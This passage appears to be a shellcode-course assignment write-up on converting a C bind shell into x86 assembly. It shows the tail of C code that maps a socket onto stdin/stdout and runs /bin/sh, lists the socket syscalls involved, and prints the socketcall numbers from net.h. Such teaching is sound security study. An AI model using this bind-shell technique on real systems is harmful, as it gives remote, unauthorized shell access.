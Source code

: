 ```c
        dup2(resfd, 1);
        dup2(resfd, 0);
        execve("/bin/sh", NULL, NULL);
        return 0;
}
```

<p style="text-align:justify;">
In order to convert the above code into x86 assembly, there is a need to investigate the&nbsp; system calls being used. Specifically, the following&nbsp; system calls are used :
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
bind()
listen()
accept()
dup2()
execve()
</pre>

<p style="text-align:justify;">
The above system calls except <b>execve</b> and <b>dup2</b> are socket system calls and they are referenced with <b>socketcall</b> which is a common kernel entry point. Before moving further, the following steps are mentioned in order to construct the bind connection to the client as follows:
</p>

- create a socket
- bind socket to address and port
- listen for connections
- accept connection

<p style="text-align:justify;">
The steps above providing a footprint to further build the bind shellcode. Furthermore, the different numbers assigned to each socket system calls must be searched in order to use them in each step. The following image shows the numbers used for the needed socket system calls
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># cat /usr/include/linux/net.h | grep SYS
#define SYS_SOCKET 1 /* sys_socket(2) */
#define SYS_BIND 2 /* sys_bind(2) */
#define SYS_CONNECT 3 /* sys_connect(2) */
#define SYS_LISTEN 4 /* sys_listen(2) */
#define SYS_ACCEPT 5 /* sys_accept(2) */
#define SYS_GETSOCKNAME 6 /* sys_getsockname(2) */
#define SYS_GETPEERNAME 7 /* sys_getpeername(2) */
#define SYS_SOCKETPAIR 8 /* sys_socketpair(2) */
#define SYS_SEND 9 /* sys_send(2) */
#define SYS_RECV 10 /* sys_recv(2) */
#define SYS_SENDTO 11 /* sys_sendto(2) */
#define SYS_RECVFROM 12 /* sys_recvfrom(2) */
#define SYS_SHUTDOWN 13 /* sys_shutdown(2) */
#define SYS_SETSOCKOPT 14 /* sys_setsockopt(2) */
#define SYS_GETSOCKOPT 15 /* sys_getsockopt(2) */
#define SYS_SENDMSG 16 /* sys_sendmsg(2) */
#define SYS_RECVMSG 17 /* sys_recvmsg(2) */
#define SYS_ACCEPT4 18 /* sys_accept4(2) */
#define SYS_RECVMMSG 19 /* sys_recvmmsg(2) */
#define SYS_SENDMMSG 20 /* sys_sendmmsg(2) */